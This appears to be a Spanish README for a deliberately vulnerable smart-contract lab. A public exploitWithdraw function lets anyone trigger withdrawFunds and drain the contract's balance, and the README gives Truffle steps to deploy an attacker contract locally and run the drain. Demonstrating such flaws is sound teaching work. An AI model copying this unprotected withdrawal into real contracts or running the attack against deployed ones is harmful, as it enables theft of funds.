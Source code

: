 Explicación de la vulnerabilidad
La vulnerabilidad radica en la función exploitWithdraw que es pública, permitiendo que cualquiera llame a la función withdrawFunds, que transfiere todo el balance del contrato al msg.sender sin ninguna verificación adicional.

Guía para Crear y Probar la Vulnerabilidad
1. Clonar el repositorio:

En primer lugar, asegúrate de tener instalado git y node.js. Luego, clona tu repositorio:
bash
git clone https://github.com/tu-usuario/vulnerable-smart-contract.git
cd vulnerable-smart-contract

2. Instalar dependencias:
Asegúrate de tener Truffle o Hardhat instalado. Si no, puedes instalarlo con:
bash
npm install -g truffle # O hardhat

Después, instala las dependencias locales del proyecto:
bash
npm install

3. Desplegar contratos:
Para compilar y desplegar los contratos, sigue estos pasos:

En truffle-config.js o hardhat.config.js, configura la red local.

Despliega el contrato vulnerable:
bash
truffle migrate --reset

4. Interactuar con los contratos:
Una vez que los contratos estén desplegados, puedes interactuar con ellos usando la consola de Truffle:
bash
truffle console

javascript
En la consola, realiza los siguientes pasos para simular el ataque:
// Asigna la dirección del contrato vulnerable
let vulnerable = await VulnerableContract.deployed();

// Deposita ETH en el contrato vulnerable
await vulnerable.deposit({from: accounts[0], value: web3.utils.toWei('1', 'ether')});

// Despliega el contrato atacante
let attacker = await Attacker.new(vulnerable.address);

// Ejecuta el ataque
await attacker.attack({from: accounts[1]});

// Verifica que los fondos han sido retirados
let newBalance = await vulnerable.balance();
console.log("Balance del contrato vulnerable después del ataque:", newBalance.toString());

